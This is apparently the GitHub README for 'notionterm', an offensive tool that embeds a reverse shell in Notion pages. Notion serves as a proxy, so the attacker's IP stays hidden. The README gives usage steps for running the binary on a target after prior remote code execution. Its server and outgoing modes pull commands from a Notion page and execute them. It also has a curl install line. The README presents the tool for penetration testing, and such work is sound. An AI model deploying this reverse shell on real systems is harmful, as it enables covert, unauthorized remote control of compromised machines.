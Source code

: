 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>

<a href="https://github.com/spencerpauly/awesome-notion"><img src="https://awesome.re/mentioned-badge.svg"></a>

</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo_dark_light.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
  <li>Encrypted and authenticated remote shell</li>

</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed HTTP communication between the target and notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

**Set-up**
1. Create the "reverse shell" page in Notion: [Page template](https://fluff-grade-468.notion.site/notionterm-template-19dc9d0bbae04f40b56c475f8cd79607)
2. Give the permissions to `notionterm` to access the page (with the notion api key)

**Run** ([details](#-run))

3. Start `notionterm`
4. Activate the reverse shell (with the button `ON`)
5. do your reverse shell stuff
6. Shutdown the reverse shell (`OFF`)

### 👟 Run

```shell
# On target with prior RCE
./notionterm
```

Configuration can be made using:
- Flags
- Configuration table in notion page

#### Server mode
To quickly obtain terminal in any notion page you can use the server mode (Requirement: *integration w/ write access to the page*)

**First**, Launch notionterm on target with server mode enable:
```shell
notionterm -serve [flags]
```
**Then**, when/where you want to get a terminal in your notion page create an embed block with url containing the page id *(`CTRL+L`to get it)*: `https://[TARGET_URL]/notionterm?url=[PAGE_ID]`.

Wait..

**And that's all!**

### Outgoing mode
**+**: only target -> notion page flux *(.i.e No need to have a HTTP server reachable on target)*
```shell
notionterm -outgoing [flags]
```
Launch notionterm and immediatly request notion page to retrieve command to execute (do not wait the button to be clicked).



## Install
* **From release**: `curl -lO -L https://github.com/ariary/notionterm/releases/latest/download/notionterm && chmod +x notionterm`
